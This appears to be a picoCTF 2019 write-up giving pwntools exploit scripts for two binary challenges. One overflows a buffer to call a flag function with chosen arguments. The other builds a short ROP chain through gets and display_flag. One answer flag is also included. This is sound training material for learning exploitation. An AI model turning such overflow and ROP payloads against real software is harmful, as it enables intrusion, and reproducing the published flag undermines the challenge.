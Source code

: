 <hr>

<h5> Overflow 2 - 250pt </h5>
<p> Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server. Source. </p>

```py

#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434')

p = r.process('./vuln')
e = ELF('./vuln')

flag = e.symbols['flag']
arg1 = 0xDEADBEEF
arg2 = 0xC0DED00D

payload = "A"*188
payload += p32(flag)
payload += "A"*4
payload += p32(arg1)
payload += p32(arg2)

p.sendline(payload)

print p.recv()
```
<strong> Flag : picoCTF{arg5_and_r3turn598632d70} </strong>
<hr>

<h5> leap-frog - 300pt </h5>
<p> Can you jump your way to win in the following program and get the flag? You can find the program in /problems/leap-frog_2_b375af7c48bb686629be6dd928a46897 on the shell server? Source. </p>


```py
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/leap-frog_2_b375af7c48bb686629be6dd928a46897')

p = r.process('./rop')
e = ELF('./rop')

gets_plt = e.plt['gets']
display_flag = e.symbols['display_flag']
win = 0x804a03d

payload = "A"*28 # 0x18 + 4
payload += p32(gets_plt)
payload += p32(display_flag)
payload += p32(win)

p.sendline(payload)
p.sendline("test")
```